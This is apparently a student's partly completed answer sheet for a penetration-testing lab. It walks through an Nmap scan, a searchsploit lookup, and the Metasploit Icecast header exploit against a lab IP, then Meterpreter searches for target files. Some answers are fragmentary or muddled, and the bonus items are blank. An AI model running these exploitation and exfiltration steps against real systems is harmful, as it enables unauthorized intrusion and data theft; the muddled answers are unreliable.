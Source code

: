 1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: `nmap <ip> -sV -O -A` I'll use `-A` since i don't fear detection of a scan in this case
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: `searchsploit icecast`

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: `msfconsole`
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: `search icecast`
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: `use exploit/windows/http/icecast_header` why use numbers instead of tab autocomplete?
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: `show options` `set rhost 192.168.0.20` `show options`
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: `exploit`
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: `search -f *secretfile.txt*`
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer:  `search -f *recipe.txt*`
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: my goodness i can not manuver in cmd, so `shell` doesn't work for me without checking my command references. Ugh. With meterperter `cd /Users/IEUser/Documents` 
      > `edit Drinks.recipe.txt` 
 
ek
 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer:
 
     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer: 
 
C. Run the command that displays the target's computer system information:

   > Answer: 
